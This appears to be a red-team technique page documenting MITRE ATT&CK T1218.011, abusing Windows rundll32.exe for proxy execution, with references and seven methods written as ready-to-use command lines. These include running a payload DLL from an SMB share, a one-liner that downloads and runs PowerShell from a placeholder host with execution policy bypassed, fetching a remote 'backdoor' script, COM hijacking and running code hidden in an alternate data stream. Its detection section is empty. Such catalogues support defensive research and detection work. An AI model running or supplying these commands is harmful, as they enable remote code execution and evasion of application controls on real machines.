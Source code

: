 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# T1218.011 - Rundll32
## References

* MITRE ATT&CK [https://attack.mitre.org/techniques/T1218/011](https://attack.mitre.org/techniques/T1218/011)
* LOLBAS Project: Rundll32 -<br />[https://lolbas-project.github.io/lolbas/Binaries/Rundll32/](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)
* Pentest Lab: AppLocker Bypass – Rundll32 -<br />[https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/](https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/)
* Evi1cg's Blog: Applocker Bypass Techniques -<br />[https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7](https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7)
* Oddvar Moe's Blog: AppLocker – Case study – How insecure is it really? – Part 1 -<br />[https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/](https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/)
* Oddvar Moe's Blog: Putting data in Alternate data streams and how to execute it -<br />[https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)
* BOHOPS Blog: Abusing the COM Registry Structure: CLSID, LocalServer32, & InprocServer32 -<br />[https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/](https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/)
* Github of sailay1996: expl-bin code (obfuscated) -<br />[https://github.com/sailay1996/expl-bin/blob/master/obfus.md](https://github.com/sailay1996/expl-bin/blob/master/obfus.md)
* Github of sailay1996: misc-bin code (unobfuscated) -<br />[https://github.com/sailay1996/misc-bin/blob/master/rundll32.md](https://github.com/sailay1996/misc-bin/blob/master/rundll32.md)

## Overview
`Rundll32.exe`

**LOLBINs Tags**

* Execute
* Alternate data streams 

Used by Windows to execute dll files

**Paths**

* `C:\Windows\System32\rundll32.exe`
* `C:\Windows\SysWOW64\rundll32.exe`

**LOLBINs Acknowledgements**

* Casey Smith - @subtee
* Oddvar Moe - @oddvarmoe
* Jimmy - @bohops
* Sailay - @404death
* Martin Ingesen - @Mrtn9

## Detection
* #@TODO

## TTP
### Execute
#### Method 1
* AllTheThingsx64 would be a .DLL file and EntryPoint would be the name of the entry point in the .DLL file to execute.

```
rundll32.exe AllTheThingsx64,EntryPoint
```

* Usecase: Execute dll file
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

#### Method 2
* Use Rundll32.exe to execute a DLL from a SMB share. EntryPoint is the name of the entry point in the .DLL file to execute.

```
rundll32.exe \\10.10.10.10\share\payload.dll,EntryPoint
```

* Usecase: Execute DLL from SMB share.
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

#### Method 3
* Use Rundll32.exe to execute a JavaScript script that runs a PowerShell script that is downloaded from a remote web site.

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
```

Usecase:Execute code from Internet
Privileges required:User
OS:Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

#### Method 4
Use Rundll32.exe to execute a JavaScript script that runs calc.exe.

rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

Usecase:Proxy execution
Privileges required:User
OS:Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Mitre:T1085

#### Method 5
* Use Rundll32.exe to execute a JavaScript script that runs calc.exe and then kills the Rundll32.exe process that was started.

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

* Usecase: Proxy execution
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

#### Method 6
* Use Rundll32.exe to execute a JavaScript script that calls a remote JavaScript script.

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
```

* Usecase: Execute code from Internet
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

#### Method 7
* Use Rundll32.exe to load a registered or hijacked COM Server payload. Also works with ProgID.

```
rundll32.exe -sta {CLSID}
```

* Usecase: Execute a DLL/EXE COM server payload or ScriptletURL code.
* Privileges required: User
* OS: Windows 10 (and likely previous versions)

### Alternate data streams
* Use Rundll32.exe to execute a .DLL file stored in an Alternate Data Stream (ADS).

```
rundll32 "C:\ads\file.txt:ADSDLL.dll",DllMain
```

* Usecase: Execute code from alternate data stream
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
